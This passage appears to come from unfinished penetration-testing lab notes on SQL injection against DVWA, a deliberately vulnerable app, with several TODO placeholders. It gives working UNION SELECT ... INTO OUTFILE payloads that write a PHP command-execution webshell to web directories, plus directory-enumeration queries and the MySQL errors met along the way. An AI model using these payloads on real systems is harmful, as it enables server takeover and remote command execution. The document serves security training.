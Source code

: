 ```
WHERE avatar LIKE '%upload%'

WHERE avatar LIKE  '%.jpeg'

WHERE avatar LIKE  '%.pdf'

WHERE avatar LIKE  '%.txt'
```

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

- Spidering the URL with the use of `katana` to enumerate directories.

TODO: paste terminal commands and output

- Bruteforce the directories in the URL with tools such as, `gobuster`

TODO: paste terminal commands and output

### 4.2.4 - Exploit

TODO: Provide a way to GRANT the current DB user account for FILE Privilege

#### 4.2.4.1 - Exploit via OUTFILE

##### 4.2.4.1.1 - Simple Webshell

> [!NOTE] Error Messages
> There are a few things you need to know about these error messages.

1. MySQL can't find the source. To solve this error, you need to provide the absolute path to source.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/html/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/html/shell.php' (Errcode: 2 "No such file or directory")
```

2. Ensure the directory has write permissions.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/www/shell.php' (Errcode: 13 "Permission denied")
```

Save the webshell with an absolute path

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```
